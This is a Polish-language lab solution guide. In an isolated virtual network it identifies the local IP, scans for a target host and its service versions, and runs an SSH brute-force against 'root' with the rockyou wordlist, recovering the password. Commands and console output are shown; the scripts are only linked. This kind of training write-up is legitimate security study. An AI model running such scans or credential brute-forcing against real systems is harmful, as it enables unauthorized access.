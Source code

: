 # Przewodnik rozwiązania zadań

## Podstawowa konfiguracja
- maszyna wirtualna z systemem kali
- maszyna wirtualna SDA\
Sieć izolowana typu host-only 

## Ustalić własny adres IP wraz z maską podsieci

**Skrypt**: [network_info_final.py](network_info_final.py) wywołany bez argumentów.

```console
kali@kali:~$ python network_info_final.py
Interfejs: eth0
IP: 192.168.56.100
Maska sieci: 255.255.255.0
---------------------------
```

**Opis działania**: Skrypt robi pętlę po wykrytych w systemie interfejsach i zwraca adres IP przypisany do aktualnie iterowanego interfejsu.\
### Rozwiązanie: IP: <span style="color: green">192.168.56.100</span>, maska: <span style="color: green">255.255.255.0</span>
___
## Na podstawie powyższych informacji przeskanować sieć i ustalić adres IP celu, otwarte porty oraz ustalić nazwy oprogramowania na tych portach wraz z ich numerami wersji..
**Skrypt**: [port_scanner_final.py](port_scanner_final.py) wywołany bez argumentów.

```console
kali@kali:~$ python port_scanner_final.py
########################################
# Skanuję sieć w poszukiwaniu hostów.  #
# Interfejs: eth0                      #
# Ip: 192.168.56.100                   #
# Pomijam siebie!                      #
########################################
---------------------
IP: 192.168.56.1
Nazwa hosta: 
Status: up
Protokoły ┐
          └ TCP ┐
                ┌ Port: 22, status: open
                └ OpenSSH 8.9p1 Ubuntu 3 Ubuntu Linux; protocol 2.0
                ┌ Port: 80, status: open
                └ Apache httpd 2.4.52 (Ubuntu)
                ┌ Port: 139, status: open
                └ Samba smbd 4.6.2 
                ┌ Port: 445, status: open
                └ Samba smbd 4.6.2 
                ┌ Port: 631, status: open
                └ CUPS 2.4 
                ┌ Port: 3306, status: open
                └ MySQL  unauthorized
---------------------
IP: 192.168.56.106
Nazwa hosta: 
Status: up
Protokoły ┐
          └ TCP ┐
                ┌ Port: 21, status: open
                └ vsftpd 3.0.5 
                ┌ Port: 22, status: open
                └ OpenSSH 8.9p1 Ubuntu 3 Ubuntu Linux; protocol 2.0
                ┌ Port: 80, status: open
                └ Apache httpd 2.4.52 (Ubuntu)

```
**Opis działania**: Skrypt korzysta z poprzednio opisanego skrytpu. Na podstawie otrzymanej listy interfejsów do robi pętlę po nich i wykonuje skanowanie hostów zgodnie z maską sieciewią. Domyślnie skrypt nie wyświetla wyników skanowania portów na własnym IP.\
**Uwaga!** Jeżeli wirtualne maszyny są ustawione w trybie sieci: host-only, nie jest zwracana nazwa hosta! W trybie bridged - nazwy hostów są rozwiązywane poprawnie.
### Rozwiązanie: Adres IP celu: <span style="color: green">192.168.56.106</span>, otwarte porty:
- #### 21 - vsftpd 3.0.5 
- #### 22 - OpenSSH 8.9p1
- #### 80 - Apache httpd 2.4.52
___

## Atak brute-force na dowolną usługę

W pierwszej kolejności przeprowadzono atak na port 22 i usługę SSH. Założono, że na atakowanej maszynie istnieje użytkownik 'root'. Słownik możliwych haseł: rockyou.txt\
**Skrypt**: [brute_force_ssh_final.py](brute_force_ssh_final.py) wywołany z argumentami:
- --host 192.168.100.56.106
- --user root
- --password /usr/share/wordlists/rockyou.txt
```console
kali@kali:~$ python brute_force_ssh_final.py --host 192.168.56.106 --user root --password /usr/share/wordlists/rockyou.txt
[!] Błędne dane logowania root:12345
[*] Przekroczono limit połączeń, ponawiam próbę root:123456789 z opóźnieniem...
[*] Przekroczono limit połączeń, ponawiam próbę root:123456789 z opóźnieniem...
[!] Błędne dane logowania root:123456789
[!] Błędne dane logowania root:password
................
[*] Przekroczono limit połączeń, ponawiam próbę root:666 z opóźnieniem...
[*] Przekroczono limit połączeń, ponawiam próbę root:666 z opóźnieniem...
[+] Określono dane dostępowe:
        Host: 192.168.56.106
        Użytkownik: root
        Hasło: 666

```